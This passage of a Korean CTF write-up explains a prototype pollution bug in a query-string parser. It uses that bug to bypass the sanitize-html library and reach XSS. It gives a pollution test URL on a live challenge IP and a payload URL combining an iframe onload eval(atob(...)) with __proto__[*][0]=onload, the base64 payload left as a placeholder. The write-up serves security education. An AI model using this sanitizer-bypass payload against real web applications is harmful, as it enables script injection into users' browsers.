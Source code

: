 sanitizeHtml은 NPM의 **sanitize-html 모듈**입니다.

```jsx
(function(global){
  global.MakeQueryArg = function(){
			...
			
      switch (selector.charAt(selectorBreak)) {
        case '[':
          obj[currentRoot] = obj[currentRoot] || [];
          nextSelector = nextSelector.replace(']', '');

          if (nextSelector.search(/[\.\[]/) === -1 && nextSelector.search(/^[0-9]+$/) > -1) {
            nextSelector = parseInt(nextSelector, 10);
          }

          return QueryArg._qaAccess(obj[currentRoot], nextSelector, value);
       
		...
```

 `__proto__` 와 같은 문자열의 검증없이 currentRoot를 사용하여 할당하기 때문에 Prototype Pollution이 발생합니다.

[http://34.134.162.213:17002/?__proto__[a]=1](http://34.134.162.213:17002/?__proto__[a]=1) 해당 링크에 접속하여 PP를 확인할 수 있습니다.
 

![image.png](image%201.png)

`sanitizeHtml prototype pollution` 을 검색하면 [유용한 링크](https://www.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers.html)가 나옵니다.

![image.png](image%202.png)

![image.png](image%203.png)

따라서 아래와 같이 접근하여 문제를 해결할 수 있습니다.ㅑ

```
http://127.0.0.1:5000/?note=%3Ciframe%20onload=eval(atob(%22BASE64 인코딩된 페이로드%22))%3E&__proto__[*][0]=onload
```

### 관련 워게임

[https://dreamhack.io/wargame/challenges/205/](https://dreamhack.io/wargame/challenges/205/)

[https://dreamhack.io/wargame/challenges/468/](https://dreamhack.io/wargame/challenges/468/)

[https://dreamhack.io/wargame/challenges/643/](https://dreamhack.io/wargame/challenges/643/)

[https://dreamhack.io/wargame/challenges/1678](https://dreamhack.io/wargame/challenges/1678)

---

# class pollution ( 정성훈 )
